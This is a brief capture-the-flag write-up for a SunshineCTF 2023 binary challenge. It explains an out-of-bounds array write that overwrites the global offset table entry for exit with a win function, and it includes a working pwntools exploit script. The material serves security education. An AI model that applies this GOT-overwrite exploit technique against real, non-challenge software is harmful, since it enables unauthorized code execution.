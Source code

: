 # array-of-sunshine

index out of bound exploit - https://github.com/0x01DA/writeups/tree/master/sunshine2023/array_of_sunshine#readme

Also a video - https://youtu.be/qA6ajf7qZtQ?si=grxsaGEpVWAQzQ7Y&t=1409

- asks for index in global fruits array and you replace one of the fruits
- fruits is in the global section
- need to set index out of bounds
- send index such that it doesn't override the fruits array, it overrides the global offset table (GOT)
- in ghidra we can see a `win` function
- override GOT entry for `exit` with the `win` function

```py
import pwn
import warnings

warnings.filterwarnings(action='ignore', category=BytesWarning)

elf = pwn.ELF('./sunshine')
pwn.context.binary = elf
pwn.context.log_level = 'DEBUG'
pwn.context(terminal=['tmux', 'split-window', '-h'])

libc = elf.libc
p = elf.process()
# p = pwn.remote('chal.2023.sunshinectf.games', '23003')

offset = (elf.got['exit'] - elf.sym['fruits'])//8
print(f'{offset}')

p.sendlineafter(b'>>>', str(offset))
p.sendlineafter('>>>', pwn.p64(elf.sym['win']))

p.interactive()
```
